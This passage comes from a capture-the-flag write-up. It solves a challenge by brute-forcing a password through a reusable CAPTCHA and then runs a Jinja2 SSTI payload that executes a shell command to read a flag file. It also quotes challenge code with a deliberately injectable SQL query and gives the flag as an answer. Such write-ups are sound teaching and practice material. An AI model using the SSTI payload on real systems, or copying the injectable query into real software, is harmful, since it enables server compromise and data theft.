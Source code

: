 There is also another reusable CAPTCHA vulnerability here, which lets us brute force the user's password.

Eventually, you'll get a hit on "peaches".
Then we can login as admin, and use the SSTI vulnerability to read the flag on the server.

SSTI payload:
```{% raw %}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```{% endraw %}

Flag: BBCTF{c4ptcha_4nd_sst1_m4st3r!}

### sqli-1 (Web)

> This store is only for my customers to visit and do online purchase. There are Apple, Banana and Cherry. Nothing else right?
> 
> Author: yappare
> http://157.180.92.15:5001/ 

To use the search function, we need to set the user agent to UMCS-CTF.
```python
def index():
    if request.method == 'POST':
        search_term = request.form.get('search')

        user_agent = request.headers.get('User-Agent')
        if user_agent != 'UMCS-CTF':
            return abort(403)  

        query = f"SELECT * FROM products WHERE name LIKE '%{search_term}%'"
        cursor = mysql.connection.cursor()
        try:
            cursor.execute(query)
            results = cursor.fetchall()
            return render_template('index.html', results=results)
        except:
            return abort(403) 
    return render_template('index.html')
```

The SQLi is at Line 13 in app/routes.py.
We can do a UNION SELECT to retrieve the flag from the flag table.
